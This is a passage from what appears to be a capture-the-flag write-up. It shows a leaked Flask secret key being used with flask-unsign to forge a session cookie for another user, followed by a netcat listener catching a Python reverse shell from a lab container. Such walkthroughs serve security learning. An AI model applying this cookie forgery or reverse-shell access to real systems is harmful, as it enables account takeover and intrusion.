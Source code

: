 ![image-20230214102641081](https://0xdfimages.gitlab.io/img/image-20230214102641081.png)

With three parts of base64-encoded data separated by `.`, that looks like a JWT or a Flask cookie. Given the fact that this web application is written in Flask, I’ll start there. [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) is a tool for Flask cookies. I can check if the secret key I leaked works with the cookie by passing that as the wordlist to the `--unsign` command:

```

oxdf@hacky$ flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-uqBA.o46_JCuR7NsHaRVAbUnwdhaoUfI' -w <( echo "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67" )
[*] Session decodes to: {'username': 'gary'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1 attempts
'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67'

```

I’m using the `<( )` Bash syntax to have the results of what’s in the middle be handled as if it’s in a file. It matches.

With the secret I can craft cookies for any use I want. I already enumerated the users, and I’ve noticed that jack has a container running named Secrets. I’ll create a cookie as jack:

```

oxdf@hacky$ flask-unsign --sign --cookie "{'username': 'jack'}" --secret "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67"
eyJ1c2VybmFtZSI6ImphY2sifQ.Y-vWgA.jUSvqhy4bQg1sgdiag_VgV_f_ec

```

I’ll add that cookie to Firefox for `rainycloud.htb` and refresh the page to be logged in as jack with access to the “secrets” container:

![image-20230214134651354](https://0xdfimages.gitlab.io/img/image-20230214134651354.png)

### secrets Container

#### Shell

Now with access to the secrets container, when I run commands, they run as UID 1000. For example, if I “Execute Command” and put in `id`, it returns `uid=1000 gid=1000`. That’s different than gary’s container, which showed UID 1337 (at least for “Execute Command” - See [Beyond Root](#beyond-root)).

Just like with the previous container, secrets is running alpine-python, so I’ll grab a Python reverse shell from [revshells.com](https://www.revshells.com/). It only has `python3` (no `python`), so I’ll make sure that’s correct and send it as a “Execute Command (background)”, getting a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.184 55194
/ $ ^[[49;5R

```
